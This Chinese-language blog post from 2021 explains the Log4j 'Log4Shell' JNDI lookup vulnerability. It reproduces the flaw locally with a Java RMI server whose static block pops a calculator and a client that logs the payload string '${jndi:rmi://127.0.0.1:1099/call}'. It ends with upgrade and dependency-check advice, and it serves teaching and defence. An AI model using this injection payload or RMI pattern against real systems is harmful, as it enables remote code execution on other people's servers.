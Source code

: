```yaml
---
title: log4j 漏洞攻击
category: java
tags:
  - java
  - log4j
  - 日志
keywords:
  - sdvdxl
  - java
  - log4j
  - 日志
abbrlink: 7af9
tag_img: 'https://public-links.todu.top/1639498829.png?imageMogr2/thumbnail/!100p'
date: 2021-12-14 23:16:11
updateDate: 2021-12-14 23:16:11
---
```


事情起因于前几天（2021-12-10号）被全球广泛应用的组件Apache Log4j被曝出一个高危漏洞，攻击者仅需一段代码就可远程控制受害者服务器的事件。受影响的版本为 `Apache Log4j 2.x <= 2.14.1`。

其实这个本来算是log4j的一个特性，这个玩意在log4j里面叫做 [lookup](https://logging.apache.org/log4j/2.x/manual/lookups.html)，简而言之可以使用一些特定的变量进行数据处理包括远程调用。但也因为这个特性，如果是用户填写的内容被解释了，那么可能会造成远程调用，执行任意代码的危害，接下来我们演示下怎么重现这个问题。

代码已经放在了[码云-sdvdxl](https://gitee.com/sdvdxl/log4j-attack-demo)上，该工程是 maven+springboot项目，建议使用 idea 或者 eclipse 打开操作和运行程序（本人使用 mac + idea 作为开发调试环境）

>**仅供技术学习交流使用，切勿用来进行非法行为！如果因此造成危害，后果自付！**

## log4j远程执行过程

方便起见，这里使用了 [spring-start](https://start.spring.io/) 创建了一个 springboot 项目，完整代码参见上面连接。

该演示工程主要分为两部分：

- RMI Server（参见源码 `top.todu.log4j.attack.demo.rmi.server` 包的 java 文件）
- RMI Client （参见 `top.todu.log4j.attack.demo.Application` 文件）

### RMI server

RMI server 非常简单（没有深入研究rmi，所以简单写了个demo），主要内容解释：

1. RmiServerDemo 作为主程序，注册一个服务名称为 `call` 可以供 client 调用
1. 绑定端口 1099

### TestRunCommand

这个类起作用的就是静态代码块，被远程调用的时候，该静态代码库就会被执行

```java
static {
    try {
      // 要执行的命令，这里测试是在我自己的电脑上打开计算器程序
      Runtime.getRuntime().exec("open -a Calculator");
    } catch (IOException e) {
      e.printStackTrace();
    }
    System.out.println("rmi");
  }
```

这个代码远程执行的命令是：`open -a Calculator` 打开计算器（mac 系统上的命令），如果你是运行在windows上，可以将它改为其他命令，比如 `calc`。

运行 `RmiServerDemo` 启动 rmi server。

### RMI client

客户端代码非常简单，就是一个普通的带有 main 方法的类，加点打印日志的代码：

```java
package top.todu.log4j.attack.demo;

import java.util.concurrent.TimeUnit;
import org.apache.logging.log4j.Logger;
import org.slf4j.LoggerFactory;

// 模拟线上服务
// @Slf4j
public class Application {

  public static void main(String[] args) throws InterruptedException {
    Logger logger = org.apache.logging.log4j.LogManager.getLogger("log4j");
    String username = "${jndi:rmi://127.0.0.1:1099/call}";
    logger.info("用户登录，username: {}", username);
    logger.info("测试日志输出");
    System.out.println(LoggerFactory.getILoggerFactory().getClass().getName());
    TimeUnit.SECONDS.sleep(5);
  }
}

```

核心代码只有：

```java
Logger logger = org.apache.logging.log4j.LogManager.getLogger("log4j");
String username = "${jndi:rmi://127.0.0.1:1099/call}";
logger.info("用户登录，username: {}", username);
```

1. get 一个logger
2. 模拟用户（黑客）输入内容
3. 打印日志

启动main方法，稍等片刻，即可看到打开了本机的计算器；同时 client 打印了日志：

```txt
rmi
TestRunCommand{测试用toString}
log4jlr log4jlr log4jlr log4jlr log4jlr log4jlr log4jlr 用户登录，username: top.todu.log4j.attack.demo.rmi.server.ReferenceWraper@3e08ff24
[]wExlog4jlr log4jlr log4jlr log4jlr log4jlr log4jlr log4jlr 测试日志输出
[]wExorg.apache.logging.slf4j.Log4jLoggerFactory
```

但是，server端只打印了 **rmi server started** 信息。

因为server和client都是运行在本机上，所以效果不明显；如果 server 部署到另一台机器， client 还在我的电脑上，那么我重新运行 client的话，还是会在我本就上打开我的计算器。

很奇怪是不是？这个跟rmi的原理有关： rmi 远程调用的时候，server将相关代码序列化传输到client上，client再在本机上运行这段代码。所以，如果别有用心的人写了个 rmi server，上面写了个比较厉害的代码（比如下载木马病毒，窃取数据库，甚至删库），那么可想而知，你的服务器是不是就炸了。

这就是这次 slf4j 的漏洞的危害，级别被定义为了 `Critical` 非常严重！

## 漏洞修复方法

如果用了log4j，还是老老实实的升级版本吧，最保险。截止目前，官方已经升级了版本到 `2.16.0`， 从 `2.15.0` 开始，默认禁用此特性，后续也可能删除。

## 问题？

我的服务使用的是 springboot，里面依赖了包含有log4j的包，会受到危害吗？

这里先简单说一下：

首先查看项目依赖：

maven 命令：

`mvn dependency:tree >tree` 查看 tree 文件内容，看看是否依赖 log4j

1. 如果项目明确指定使用的是 log4j（这里说的是log4j 2.xx）， 并且版本在 2.14.1 及其以下，毋庸置疑，受到影响
1. springboot默认依赖的是logging框架，使用的是 logback，如果整个项目未包含任何log4j的内容，那么显然不在影响范围内
1. 如果实际指定日志框架为 logback，只含了 log4j-core ，理论上也不会收到影响

所以，重点是要看实际日志输出的时候是用的哪套框架。

